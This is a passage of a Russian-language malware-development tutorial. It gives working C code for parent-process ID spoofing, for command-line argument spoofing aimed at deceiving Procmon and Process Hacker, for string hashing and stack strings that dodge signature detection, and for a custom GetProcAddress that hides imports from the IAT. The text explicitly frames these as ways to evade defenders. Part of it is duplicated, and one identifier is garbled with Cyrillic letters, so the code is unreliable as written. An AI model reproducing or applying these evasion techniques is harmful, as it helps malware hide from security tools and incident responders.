hParentProcess - дескриптор процесса, который станет родителем для только что созданного процесса.
lpProcessName - имя процесса, который необходимо создать.
dwProcessId - указатель на DWORD, который принимает PID новосозданного процесса.
hProcess - указатель на HANDLE, который принимает дескриптор только что созданного процесса.
hThread - указатель на HANDLE, который принимает дескриптор потока только что созданного процесса.
C:
BOOL CreatePPidSpoofedProcess(IN HANDLE hParentProcess, IN LPCSTR lpProcessName, OUT DWORD* dwProcessId, OUT HANDLE* hProcess, OUT HANDLE* hThread) {
CHAR lpPath[MAX_PATH * 2];
CHAR WnDr[MAX_PATH];
SIZE_T sThreadAttList = NULL;
PPROC_THREAD_ATTRIBUTE_LIST pThreadAttList = NULL;
STARTUPINFOEXA SiEx = { 0 };
PROCESS_INFORMATION Pi = { 0 };
RtlSecureZeroMemory(&SiEx, sizeof(STARTUPINFOEXA));
RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));
// Установка размера структуры
SiEx.StartupInfo.cb = sizeof(STARTUPINFOEXA);
if (!GetEnvironmentVariableA("WINDIR", WnDr, MAX_PATH)) {
printf("[!] GetEnvironmentVariableA Failed With Error : %d \n", GetLastError());
return FALSE;
}
sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);
// Это завершится ошибкой ERROR_INSUFFICIENT_BUFFER, как и ожидалось
InitializeProcThreadAttributeList(NULL, 1, NULL, &sThreadAttList);
// Выделение достаточного объема памяти
pThreadAttList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sThreadAttList);
if (pThreadAttList == NULL) {
printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Повторный вызов InitializeProcThreadAttributeList, но передача правильных параметров
if (!InitializeProcThreadAttributeList(pThreadAttList, 1, NULL, &sThreadAttList)) {
printf("[!] InitializeProcThreadAttributeList Failed With Error : %d \n", GetLastError());
return FALSE;
}
if (!UpdateProcThreadAttribute(pThreadAttList, NULL, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL)) {
printf("[!] UpdateProcThreadAttribute Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Установка элемента LPPROC_THREAD_ATTRIBUTE_LIST в SiEx равным тому, что было создано с использованием UpdateProcThreadAttribute - то есть родительский процесс
SiEx.lpAttributeList = pThreadAttList;
if (!CreateProcessA(NULL, lpPath, NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &SiEx.StartupInfo, &Pi)) {
printf("[!] CreateProcessA Failed with Error : %d \n", GetLastError());
return FALSE;
}
*dwProcessId = Pi.dwProcessId;
*hProcess = Pi.hProcess;
*hThread = Pi.hThread;
// Очистка
DeleteProcThreadAttributeList(pThreadAttList);
CloseHandle(hParentProcess);
if (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL)
return TRUE;
return FALSE;
}Демо
Создание дочернего процесса, RuntimeBroker.exe, с родителем svchost.exe, который имеет PID 21956. Обратите внимание, что этот процесс svchost.exe выполняется с обычными привилегиями.
PPID Spoofing успешно выполнен. Процесс RuntimeBroker.exe выглядит так, как будто он был запущен svchost.exe.
Демо 2 - Обновление текущего каталога
Заметьте, как в предыдущем демо значение "Current Directory" указывает на каталог исполняемого файла PPidSpoofing.exe.
Это может легко стать индикатором заражения, и решения безопасности или защитники могут быстро пометить эту аномалию. Чтобы исправить это, просто установите параметр lpCurrentDirectory в CreateProcess WinAPI на менее подозрительный каталог, например, "C:\Windows\System32".
Давайте теперь ещё рассмотрим одну интересную технику.)
Подмена аргумента процесса - это техника, используемая для скрытия командной строки нового процесса с целью выполнения команд без их раскрытия службам регистрации, таким как Procmon.
На изображении ниже показана команда powershell.exe -c calc.exe, которая регистрируется в Procmon. Цель этого раздела - выполнить команду powershell.exe -c calc.exe, чтобы она не была успешно зарегистрирована в Procmon.
Обзор PEB (Блок параметров выполнения процесса)
Первый шаг к выполнению обмана аргумента - понять, где хранятся аргументы внутри процесса. Напомним структуру PEB, которая была объяснена в начале курса, она содержит информацию о процессе. Более конкретно, структура RTL_USER_PROCESS_PARAMETERS внутри PEB содержит член CommandLine, который содержит аргументы командной строки. Структура RTL_USER_PROCESS_PARAMETERS показана ниже.
C:
typedef struct _RTL_USER_PROCESS_PARAMETERS {
BYTE Reserved1[16];
PVOID Reserved2[10];
UNICODE_STRING ImagePathName;
UNICODE_STRING CommandLine;
} RTL_USER_PROCESS_PARAMETERS, *PRTL_USER_PROCESS_PARAMETERS;CommandLine определен как UNICODE_STRING.
Структура UNICODE_STRING
Структура UNICODE_STRING показана ниже.
C:
typedef struct _UNICODE_STRING {
USHORT Length;
USHORT MaximumLength;
PWSTR Buffer;
} UNICODE_STRING, *PUNICODE_STRING;Элемент Buffer будет содержать содержимое аргументов командной строки. Имея это в виду, можно получить доступ к аргументам командной строки, используя PEB->ProcessParameters.CommandLine.Buffer как строку широких символов.
Как выполнить подмену аргументов процесса
Для выполнения подмена аргументов командной строки сначала необходимо создать целевой процесс в приостановленном состоянии, передавая фиктивные аргументы, которые не считаются подозрительными. Прежде чем возобновить процесс, строку PEB->ProcessParameters.CommandLine.Buffer необходимо заменить на желаемую строку-полезную нагрузку, которая заставит службы регистрации регистрировать фиктивные аргументы, а не фактические аргументы командной строки, которые будут выполнены. Для выполнения этой процедуры необходимо выполнить следующие шаги:
- Создать целевой процесс в приостановленном состоянии.
- Получить удаленный адрес PEB созданного процесса.
- Прочитать удаленную структуру PEB из созданного процесса.
- Прочитать удаленную структуру PEB->ProcessParameters из созданного процесса.
- Заменить строку ProcessParameters.CommandLine.Buffer и перезаписать ее полезным полезным данными для выполнения.
- Возобновить процесс.
Получение удаленного адреса PEB
Для получения адреса PEB удаленного процесса необходимо использовать NtQueryInformationProcess с флагом ProcessBasicInformation.
Как указано в документации, при использовании флага ProcessBasicInformation NtQueryInformationProcess вернет структуру PROCESS_BASIC_INFORMATION, которая выглядит следующим образом:
C:
typedef struct _PROCESS_BASIC_INFORMATION {
NTSTATUS ExitStatus;
PPEB PebBaseAddress; // Указывает на структуру PEB.
ULONG_PTR AffinityMask;
KPRIORITY BasePriority;
ULONG_PTR UniqueProcessId;
ULONG_PTR InheritedFromUniqueProcessId;
} PROCESS_BASIC_INFORMATION;Обратите внимание, что поскольку NtQueryInformationProcess - это системный вызов, его нужно вызывать с использованием GetModuleHandle и GetProcAddress, как показано в предыдущих статьях.
Чтение удаленной структуры PEB
После получения адреса PEB для удаленного процесса можно прочитать структуру PEB с помощью функции WinAPI ReadProcessMemory, как показано ниже.
C:
BOOL ReadProcessMemory(
[in] HANDLE hProcess,
[in] LPCVOID lpBaseAddress,
[out] LPVOID lpBuffer,
[in] SIZE_T nSize,
[out] SIZE_T *lpNumberOfBytesRead
);ReadProcessMemory используется для чтения данных из указанного адреса, указанного в параметре lpBaseAddress. Функцию нужно вызвать дважды:
- Первый вызов используется для чтения структуры PEB, передавая адрес PEB, полученный из вывода NtQueryInformationProcess, в параметр lpBaseAddress.
- Затем он вызывается во второй раз для чтения структуры RTL_USER_PROCESS_PARAMETERS, передавая ее адрес в параметр lpBaseAddress. Обратите внимание, что структура RTL_USER_PROCESS_PARAMETERS находится внутри структуры PEB при первом вызове. Помните, что эта структура содержит член CommandLine, который необходим для выполнения подмены аргументов.
При чтении структуры RTL_USER_PROCESS_PARAMETERS необходимо читать больше байт, чем sizeof(RTL_USER_PROCESS_PARAMETERS). Это связано с тем, что реальный размер этой структуры зависит от размера фиктивного аргумента. Для обеспечения чтения всей структуры дополнительные байты должны быть прочитаны. Это делается в образце кода, где читается дополнительных 225 байтов.
Патчинг CommandLine.Buffer
Получив структуру RTL_USER_PROCESS_PARAMETERS, можно получить доступ и патчить CommandLine.Buffer. Для этого будет использоваться функция WinAPI WriteProcessMemory, как показано ниже.
C:
BOOL WriteProcessMemory(
[in] HANDLE hProcess,
[in] LPVOID lpBaseAddress, // Что перезаписывается (CommandLine.Buffer)
[in] LPCVOID lpBuffer, // Что записывается (новый аргумент процесса)
[in] SIZE_T nSize,
[out] SIZE_T *lpNumberOfBytesWritten
);- pBaseAddress должен быть установлен на то, что перезаписывается, что в данном случае является CommandLine.Buffer.
- lpBuffer - это данные, которые будут перезаписывать фиктивные аргументы. Он должен быть строкой широких символов для замены CommandLine.Buffer, который также является строкой широких символов.
- Параметр nSize - это размер буфера для записи в байтах. Он должен быть равен длине строки, которая записывается, умноженной на размер WCHAR плюс 1 (для нулевого символа).
Код в этой статье использует две вспомогательные функции, которые читают и записывают данные из и в целевой процесс.
Функция ReadFromTargetProcess
Вспомогательная функция ReadFromTargetProcess вернет выделенную кучу, содержащую буфер, прочитанный из целевого процесса. Сначала она читает структуру PEB, а затем использует ее для получения структуры RTL_USER_PROCESS_PARAMETERS. Функция ReadFromTargetProcess показана ниже.
C:
BOOL ReadFromTargetProcess(IN HANDLE hProcess, IN PVOID pAddress, OUT PVOID* ppReadBuffer, IN DWORD dwBufferSize) {
SIZE_T sNmbrOfBytesRead = NULL;
*ppReadBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwBufferSize);
if (!ReadProcessMemory(hProcess, pAddress, *ppReadBuffer, dwBufferSize, &sNmbrOfBytesRead) || sNmbrOfBytesRead != dwBufferSize){
printf("[!] ReadProcessMemory Failed With Error : %d \n", GetLastError());
printf("[i] Bytes Read : %d Of %d \n", sNmbrOfBytesRead, dwBufferSize);
return FALSE;
}
return TRUE;
}Функция WriteToTargetProcess
Вспомогательная функция WriteToTargetProcess передает соответствующие параметры функции WriteProcessMemory и проверяет вывод. Функция WriteToTargetProcess показана ниже.
C:
BOOL WriteToTargetProcess(IN HANDLE hProcess, IN PVOID pAddressToWriteTo, IN PVOID pBuffer, IN DWORD dwBufferSize) {
SIZE_T sNmbrOfBytesWritten = NULL;
if (!WriteProcessMemory(hProcess, pAddressToWriteTo, pBuffer, dwBufferSize, &sNmbrOfBytesWritten) || sNmбрOfBytesWritten != dwBufferSize) {
printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
printf("[i] Bytes Written : %d Of %d \n", sNmbrOfBytesWritten, dwBufferSize);
return FALSE;
}
return TRUE;
}Функция подмены аргумента процесса
CreateArgSpoofedProcess - это функция, выполняющая подмен аргумента командной строки во вновь созданном процессе.
Функция требует 5 аргументов:
szStartupArgs - Фиктивные аргументы. Они должны быть безвредными.
szRealArgs - Реальные аргументы для выполнения.
dwProcessId - Указатель на DWORD, который получает PID.
hProcess - Указатель на HANDLE, который получает дескриптор процесса.
hThread - Указатель на DWORD, который получает дескриптор потока процесса.
C:
BOOL CreateArgSpoofedProcess(IN LPWSTR szStartupArgs, IN LPWSTR szRealArgs, OUT DWORD* dwProcessId, OUT HANDLE* hProcess, OUT HANDLE* hThread) {
NTSTATUS STATUS = NULL;
WCHAR szProcess [MAX_PATH];
STARTUPINFOW Si = { 0 };
PROCESS_INFORMATION Pi = { 0 };
PROCESS_BASIC_INFORMATION PBI = { 0 };
ULONG uRetern = NULL;
PPEB pPeb = NULL;
PRTL_USER_PROCESS_PARAMETERS pParms = NULL;
RtlSecureZeroMemory(&Si, sizeof(STARTUPINFOW));
RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));
Si.cb = sizeof(STARTUPINFOW);
// Получение адреса функции NtQueryInformationProcess
fnNtQueryInformationProcess pNtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandleW(L"NTDLL"), "NtQueryInformationProcess");
if (pNtQueryInformationProcess == NULL)
return FALSE;
lstrcpyW(szProcess, szStartupArgs);
if (!CreateProcessW(
NULL,
szProcess,
NULL,
NULL,
FALSE,
CREATE_SUSPENDED | CREATE_NO_WINDOW, // создание процесса приостановленным и без окна
NULL,
L"C:\\Windows\\System32\\", // можно использовать GetEnvironmentVariableW для получения этого программно
&Si,
&Pi)) {
printf("\t[!] CreateProcessA Failed with Error : %d \n", GetLastError());
return FALSE;
}
// Получение структуры PROCESS_BASIC_INFORMATION удаленного процесса, которая содержит адрес PEB
if ((STATUS = pNtQueryInformationProcess(Pi.hProcess, ProcessBasicInformation, &PBI, sizeof(PROCESS_BASIC_INFORMATION), &uRetern)) != 0) {
printf("\t[!] NtQueryInformationProcess Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
// Чтение структуры PEB из ее базового адреса в удаленном процессе
if (!ReadFromTargetProcess(Pi.hProcess, PBI.PebBaseAddress, &pPeb, sizeof(PEB))) {
printf("\t[!] Failed To Read Target's Process Peb \n");
return FALSE;
}
// Чтение структуры RTL_USER_PROCESS_PARAMETERS из PEB удаленного процесса
// Читается дополнительных 0xFF байтов, чтобы убедиться, что мы достигли указателя CommandLine.Buffer
// 0xFF - это 255, но может быть любым, на ваш выбор
if (!ReadFromTargetProcess(Pi.hProcess, pPeb->ProcessParameters, &pParms, sizeof(RTL_USER_PROCESS_PARAMETERS) + 0xFF)) {
printf("\t[!] Failed To Read Target's Process ProcessParameters \n");
return FALSE;
}
// Запись реальных аргументов в процесс
if (!WriteToTargetProcess(Pi.hProcess, (PVOID)pParms->CommandLine.Buffer, (PVOID)szRealArgs, (DWORD)(lstrlenW(szRealArgs) * sizeof(WCHAR) + 1))) {
printf("\t[!] Failed To Write The Real Parameters\n");
return FALSE;
}
// Очистка
HeapFree(GetProcessHeap(), NULL, pPeb);
HeapFree(GetProcessHeap(), NULL, pParms);
// Возобновление процесса с новыми параметрами
ResumeThread(Pi.hThread);
// Сохранение выходных параметров
*dwProcessId = Pi.dwProcessId;
*hProcess = Pi.hProcess;
*hThread = Pi.hThread;
// Проверка, все ли параметры действительны
if (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL)
return TRUE;
return FALSE;
}Демонстрация
powershell.exe Totally Legit Argument - это фиктивный аргумент, который будет зарегистрирован, в то время как powershell.exe -c calc.exe - это полезная нагрузка, которая будет выполнена.
Отлично Procmon был обманут, и он зарегистрировал фиктивные аргументы командной строки. Однако эта же техника не работает так хорошо с некоторыми инструментами, такими как Process Hacker. Ниже показан результат подмены аргумента в Process Hacker.
Легитимные аргументы отображаются Process Hacker, вместе с фрагментом фиктивного аргумента. В этом разделе мы проанализируем, почему это происходит, и предоставим решение.
Анализ проблемы
Для лучшего понимания того, почему отображаются легитимные аргументы, фиктивный аргумент будет установлен в powershell.exe AAAAAAA....
Проверка Process Hacker снова показывает, что регистрируются как легитимые, так и фиктивные аргументы.
Использование PEB->ProcessParameters.CommandLine.Buffer для перезаписи полезной нагрузки может быть обнаружено Process Hacker и другими инструментами, такими как Process Explorer, потому что эти инструменты используют NtQueryInformationProcess для чтения аргументов командной строки процесса во время выполнения. Поскольку это происходит во время выполнения, они могут видеть, что в данный момент находится в PEB->ProcessParameters.CommandLine.Buffer.
Решение
Эти инструменты считывают CommandLine.Buffer до длины, указанной в CommandLine.Length. Они не полагаются на то, что CommandLine.Buffer завершается нулевым символом, потому что Microsoft утверждает в своей документации, что UNICODE_STRING.Buffer может не быть завершен нулевым символом.
Короче говоря, эти инструменты ограничивают количество байт, считываемых из CommandLine.Buffer, равным CommandLine.Length, чтобы избежать чтения дополнительных ненужных байт в случае, если CommandLine.Buffer не завершен нулевым символом.
Возможно обмануть эти инструменты, установив CommandLine.Length меньше размера буфера. Это позволяет контролировать, сколько полезной нагрузки внутри CommandLine.Buffer будет отображено. Это можно сделать, переписав адрес CommandLine.Length в удаленном процессе, передав желаемый размер буфера для чтения внешними инструментами.
Патчинг CommandLine.Length
Следующий фрагмент кода патчит PEB->ProcessParameters.CommandLine.Length, чтобы ограничить то, что может читать Process Hacker только для powershell.exe. Сначала аргумент подмены устанавливается в "Totally Legit Argument", а затем длина патчится, чтобы быть размером sizeof(L"powershell.exe").
C:
DWORD dwNewLen = sizeof(L"powershell.exe");
if (!WriteToTargetProcess(Pi.hProcess, ((PBYTE)pPeb->ProcessParameters + offsetof(RTL_USER_PROCESS_PARAMETERS, CommandLine.Length)), (PVOID)&dwNewLen, sizeof(DWORD))){
return FALSE;
}Демонстрация
Просмотр Process Hacker.
Procmon view.
Скрытие строк
Хеширование - это техника, используемая для создания фиксированного представления куска данных, называемого хеш-значением или хеш-кодом. Хеш-алгоритмы разработаны как односторонние функции, что означает, что вычислительно невозможно определить исходные входные данные, используя хеш-значение. Хеш-код обычно имеет более короткий размер и быстрее обрабатывается. При сравнении строк хеширование может использоваться для быстрого определения равенства двух строк, в сравнении с сравнением самих строк, особенно если строки длинные.
В контексте разработки вредоносных программ хеширование строк полезно для скрытия строк, используемых в реализации, так как строки могут использоваться как сигнатуры для обнаружения вредоносных бинарных файлов.
Хеширование строк
Давайте рассмотрим некоторые алгоритмы хеширования строк. Важно понимать, что результатом этих алгоритмов является число, выраженное в шестнадцатеричном формате, так как это более аккуратно и компактно.
В этой статье рассматриваются следующие алгоритмы хеширования строк:
Dbj2
JenkinsOneAtATime32Bit
LoseLose Rotr32
Существует гораздо больше алгоритмов хеширования строк, чем те, которые обсуждаются в этой сьтатье, и некоторые из них можно найти в репозитории VX-API на GitHub.
Рекомендую присмотреться к этому репозиторию, там очень много полезных модулей на С++ для разработки малвари и пентестинга.)
Dbj2
Dbj2 - это простой и быстрый алгоритм хеширования, в основном используемый для генерации хеш-значений для строк, но также применимый к другим типам данных. Он работает, итерируясь по символам во входной строке и используя каждый символ для обновления текущего хеш-значения согласно определенному алгоритму, который продемонстрирован в следующем фрагменте.
hash = ((hash << 5) + hash) + c
hash - это текущее хеш-значение, c - текущий символ во входной строке, и << - оператор битового сдвига влево.
Результирующее хеш-значение - это положительное целое число, уникальное для входной строки. Известно, что Djb2 производит хорошее распределение хеш-значений, что приводит к низкой вероятности коллизий между разными строками и их соответствующими хеш-значениями.
Реализация Djb2, представленная ниже, взята из репозитория VX-API на GitHub.
JenkinsOneAtATime32Bit
Алгоритм JenkinsOneAtATime32Bit работает, итерируясь по символам во входной строке и инкрементально обновляя текущее хеш-значение в соответствии с значением каждого символа. Алгоритм обновления хеш-значения продемонстрирован в следующем фрагменте.
hash += c; hash += (hash << 10); hash ^= (hash >> 6); hash - текущее хеш-значение, а c - текущий символ во входной строке.
Результирующее хеш-значение - это 32-битное целое число, уникальное для входной строки. Известно, что алгоритм JenkinsOneAtATime32Bit производит относительно хорошее распределение хеш-значений, что приводит к низкой вероятности коллизий между разными строками и их соответствующими хеш-значениями.
Реализация JenkinsOneAtATime32Bit, представленная ниже, взята из репозитория VX-API на GitHub.
Rotr32
Алгоритм хеширования строк Rotr32 использует итерируемые символы во входной строке для суммирования их ASCII-значений, а затем применяет битовое вращение к текущему значению хеша. Входное значение и счет (счет равен INITIAL_SEED) используются для выполнения сдвига вправо на это значение, затем применяется операция ИЛИ с исходным значением, сдвинутым влево на отрицание счета.
Результирующее хеш-значение - это 32-битное целое число, уникальное для входной строки. Известно, что Rotr32 производит относительно хорошее распределение хеш-значений, что приводит к низкой вероятности коллизий между разными строками и их соответствующими хеш-значениями.
Реализация Rotr32, представленная ниже, взята из репозитория VX-API на GitHub.
Стек строки
В языках программирования C/C++ строку можно представить как массив символов, разделяя символы друг от друга, что помогает избегать обнаружения на основе строк. Например, строку "hello world" можно представить следующим образом.
Поиск строки "hello world" с использованием бинарного редактора HxD ничего не вернет.
Однако стека строки недостаточно, чтобы скрыть строку от некоторых отладчиков и инструментов обратной разработки, так как они могут содержать плагины для их обнаружения.
Рекомендуется также шифровать строки, если они используется в программе.)
В контексте разработки вредоносных программ хеширование строк полезно для скрытия строк, используемых в реализации, так как строки могут использоваться как сигнатуры для обнаружения вредоносных бинарных файлов.
Хеширование строк
Давайте рассмотрим некоторые алгоритмы хеширования строк. Важно понимать, что результатом этих алгоритмов является число, выраженное в шестнадцатеричном формате, так как это более аккуратно и компактно.
В этой статье рассматриваются следующие алгоритмы хеширования строк:
Dbj2
JenkinsOneAtATime32Bit
LoseLose Rotr32
Существует гораздо больше алгоритмов хеширования строк, чем те, которые обсуждаются в этой сьтатье, и некоторые из них можно найти в репозитории VX-API на GitHub.
Рекомендую присмотреться к этому репозиторию, там очень много полезных модулей на С++ для разработки малвари и пентестинга.)
Dbj2
Dbj2 - это простой и быстрый алгоритм хеширования, в основном используемый для генерации хеш-значений для строк, но также применимый к другим типам данных. Он работает, итерируясь по символам во входной строке и используя каждый символ для обновления текущего хеш-значения согласно определенному алгоритму, который продемонстрирован в следующем фрагменте.
hash = ((hash << 5) + hash) + c
hash - это текущее хеш-значение, c - текущий символ во входной строке, и << - оператор битового сдвига влево.
Результирующее хеш-значение - это положительное целое число, уникальное для входной строки. Известно, что Djb2 производит хорошее распределение хеш-значений, что приводит к низкой вероятности коллизий между разными строками и их соответствующими хеш-значениями.
Реализация Djb2, представленная ниже, взята из репозитория VX-API на GitHub.
C:
#define INITIAL_HASH 3731 // добавлено для рандомизации хеширования
#define INITIAL_SEED 7 // генерация хешей Djb2 из строк ASCII
DWORD HashStringDjb2A(_In_ PCHAR String)
{
ULONG Hash = INITIAL_HASH;
INT c;
while (c = *String++)
Hash = ((Hash << INITIAL_SEED) + Hash) + c;
return Hash;
}
// генерация хешей Djb2 из строк в широких символах
DWORD HashStringDjb2W(_In_ PWCHAR String)
{
ULONG Hash = INITIAL_HASH;
INT c;
while (c = *String++)
Hash = ((Hash << INITIAL_SEED) + Hash) + c;
return Hash;
}JenkinsOneAtATime32Bit
Алгоритм JenkinsOneAtATime32Bit работает, итерируясь по символам во входной строке и инкрементально обновляя текущее хеш-значение в соответствии с значением каждого символа. Алгоритм обновления хеш-значения продемонстрирован в следующем фрагменте.
hash += c; hash += (hash << 10); hash ^= (hash >> 6); hash - текущее хеш-значение, а c - текущий символ во входной строке.
Результирующее хеш-значение - это 32-битное целое число, уникальное для входной строки. Известно, что алгоритм JenkinsOneAtATime32Bit производит относительно хорошее распределение хеш-значений, что приводит к низкой вероятности коллизий между разными строками и их соответствующими хеш-значениями.
Реализация JenkinsOneAtATime32Bit, представленная ниже, взята из репозитория VX-API на GitHub.
C:
#define INITIAL_SEED 7 // Генерация хешей JenkinsOneAtATime32Bit из строк ASCII
UINT32 HashStringJenkinsOneAtATime32BitA(_In_ PCHAR String)
{
SIZE_T Index = 0;
UINT32 Hash = 0;
SIZE_T Length = lstrlenA(String);
while (Index != Length)
{
Hash += String[Index++];
Hash += Hash << INITIAL_SEED;
Hash ^= Hash >> 6;
}
Hash += Hash << 3;
Hash ^= Hash >> 11;
Hash += Hash << 15;
return Hash;
}
// Генерация хешей JenkinsOneAtATime32Bit из строк в широких символах
UINT32 HashStringJenkinsOneAtATime32BitW(_In_ PWCHAR String)
{
SIZE_T Index = 0;
UINT32 Hash = 0;
SIZE_T Length = lstrlenW(String);
while (Index != Length)
{
Hash += String[Index++];
Hash += Hash << INITIAL_SEED;
Hash ^= Hash >> 6;
}
Hash += Hash << 3;
Hash ^= Hash >> 11;
Hash += Hash << 15;
return Hash;
}Rotr32
Алгоритм хеширования строк Rotr32 использует итерируемые символы во входной строке для суммирования их ASCII-значений, а затем применяет битовое вращение к текущему значению хеша. Входное значение и счет (счет равен INITIAL_SEED) используются для выполнения сдвига вправо на это значение, затем применяется операция ИЛИ с исходным значением, сдвинутым влево на отрицание счета.
Результирующее хеш-значение - это 32-битное целое число, уникальное для входной строки. Известно, что Rotr32 производит относительно хорошее распределение хеш-значений, что приводит к низкой вероятности коллизий между разными строками и их соответствующими хеш-значениями.
Реализация Rotr32, представленная ниже, взята из репозитория VX-API на GitHub.
C:
#define INITIAL_SEED 5 // Вспомогательная функция, которая применяет битовое вращение
UINT32 HashStringRotr32Sub(UINT32 Value, UINT Count)
{
DWORD Mask = (CHAR_BIT * sizeof(Value) - 1);
Count &= Mask;
#pragma warning( push )
#pragma warning( disable : 4146)
return (Value >> Count) | (Value << ((-Count) & Mask));
#pragma warning( pop )
}
// Генерация хешей Rotr32 из строк ASCII
INT HashStringRotr32A(_In_ PCHAR String)
{
INT Value = 0;
for (INT Index = 0; Index < lstrlenA(String); Index++)
Value = String[Index] + HashStringRotr32Sub(Value, INITIAL_SEED);
return Value;
}
// Генерация хешей Rotr32 из строк в широких символах
INT HashStringRotr32W(_In_ PWCHAR String)
{
INT Value = 0;
for (INT Index = 0; Index < lstrlenW(String); Index++)
Value = String[Index] + HashStringRotr32Sub(Value, INITIAL_SEED);
return Value;
}Стек строки
В языках программирования C/C++ строку можно представить как массив символов, разделяя символы друг от друга, что помогает избегать обнаружения на основе строк. Например, строку "hello world" можно представить следующим образом.
C:
char string[] = { 'h', 'e', 'l', 'l', 'o', ' ', 'w', 'o', 'r', 'l', 'd', '\0' };Поиск строки "hello world" с использованием бинарного редактора HxD ничего не вернет.
Однако стека строки недостаточно, чтобы скрыть строку от некоторых отладчиков и инструментов обратной разработки, так как они могут содержать плагины для их обнаружения.
Рекомендуется также шифровать строки, если они используется в программе.)
Изучаем кунгфу-1. Скрытие таблицы импорта
Таблица импортных адресов (IAT) содержит информацию о файле PE, такую как используемые функции и DLL, экспортирующие их. Этот тип информации может быть использован для создания сигнатуры и обнаружения двоичного кода.
Например, изображение ниже показывает таблицу импортных адресов примера инъекции шелл-кода.
Файл PE импортирует функции, которые считаются высоко подозрительными. Решения безопасности могут затем использовать эту информацию для детекта.
Сокрытие и обфускация IAT - Метод 1
Чтобы скрыть функции от IAT, можно использовать GetProcAddress, GetModuleHandle или LoadLibrary для динамической загрузки этих функций во время выполнения. Приведенный ниже фрагмент загрузит VirtualAllocEx динамически, и поэтому он не появится в IAT при проверке.
C:
typedef LPVOID (WINAPI* fnVirtualAllocEx)(HANDLE hProcess, LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);
//...
fnVirtualAllocEx pVirtualAllocEx = GetProcAddress(GetModuleHandleA("KERNEL32.DLL"), "VirtualAllocEx");
pVirtualAllocEx(...);Хотя это может показаться элегантным решением, по ряду причин это не самый лучший способ:
Во-первых, строка VirtualAllocEx существует в двоичном коде, что может быть использовано для обнаружения использования функции.
GetProcAddress и GetModuleHandleA появятся в IAT, что само по себе используется как сигнатура.
Сокрытие и обфускация IAT - Метод 2
Более элегантным решением является создание собственных функций, которые выполняют те же действия, что и GetProcAddress и GetModuleHandle WinAPIs.
Таким образом, становится возможным динамически загружать функции без появления этих двух функций в IAT.
Функция WinAPI GetProcAddress извлекает адрес экспортированной функции из указанного дескриптора модуля. Функция возвращает NULL, если имя функции не найдено в указанном дескрипторе модуля.
В этой части будет реализована функция, заменяющая GetProcAddress. Прототип новой функции показан ниже.
C:
FARPROC GetProcAddressReplacement(IN HMODULE hModule, IN LPCSTR lpApiName) {}Как работает GetProcAddress
Первый момент, который необходимо учесть, - это то, как адрес функции находится и извлекается с помощью WinAPI GetProcAddress.
Параметр hModule - это базовый адрес загруженной DLL. Это адрес, где модуль DLL находится в адресном пространстве процесса. Учитывая это, адрес функции находится путем перебора экспортированных функций в предоставленной DLL и проверки существования имени целевой функции. Если найдено соответствие, извлеките адрес.
Для доступа к экспортированным функциям необходимо получить доступ к таблице экспорта DLL и просмотреть ее в поисках имени целевой функции.
Таблица экспорта - это структура, определенная как IMAGE_EXPORT_DIRECTORY.
C:
typedef struct _IMAGE_EXPORT_DIRECTORY {
DWORD Characteristics;
DWORD TimeDateStamp;
WORD MajorVersion;
WORD MinorVersion;
DWORD Name;
DWORD Base;
DWORD NumberOfFunctions;
DWORD NumberOfNames;
DWORD AddressOfFunctions; // RVA от базы изображения
DWORD AddressOfNames; // RVA от базы изображения
DWORD AddressOfNameOrdinals; // RVA от базы изображения
} IMAGE_EXPORT_DIRECTORY, *PIMAGE_EXPORT_DIRECTORY;Для нас актуальны последние три элемента.
AddressOfFunctions - указывает адрес массива адресов экспортированных функций.
AddressOfNames - указывает адрес массива адресов имен экспортированных функций.
AddressOfNameOrdinals - указывает адрес массива порядковых номеров для экспортированных функций.
Как получить каталог экспорта, IMAGE_EXPORT_DIRECTORY
Пример кода:
C:
FARPROC GetProcAddressReplacement(IN HMODULE hModule, IN LPCSTR lpApiName) {
// Делаем это, чтобы избежать приведения каждый раз при использовании 'hModule'
PBYTE pBase = (PBYTE) hModule;
// Получаем заголовок DOS и проверяем подпись
PIMAGE_DOS_HEADER pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;
if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
return NULL;
// Получаем заголовки NT и проверяем подпись
PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return NULL;
// Получаем необязательный заголовок
IMAGE_OPTIONAL_HEADER ImgOptHdr = pImgNtHdrs->OptionalHeader;
// Получаем таблицу экспорта изображения
// Это каталог экспорта
PIMAGE_EXPORT_DIRECTORY pImgExportDir = (PIMAGE_EXPORT_DIRECTORY) (pBase + ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
// ...
}Доступ к экспортированным функциям
После получения указателя на структуру IMAGE_EXPORT_DIRECTORY можно просмотреть экспортированные функции. Член NumberOfFunctions указывает количество функций, экспортированных hModule. В результате максимальное количество итераций цикла должно соответствовать NumberOfFunctions.
C:
for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++){
// Поиск целевой экспортированной функции
}Построение логики поиска
Следующим шагом является создание логики поиска для функций. Построение логики поиска требует использования AddressOfFunctions, AddressOfNames и AddressOfNameOrdinals, которые являются массивами, содержащими RVA, ссылающиеся на уникальную функцию в таблице экспорта.
C:
typedef struct _IMAGE_EXPORT_DIRECTORY {
// ...
// ...
DWORD AddressOfFunctions; // RVA от базы изображения
DWORD AddressOfNames; // RVA от базы изображения
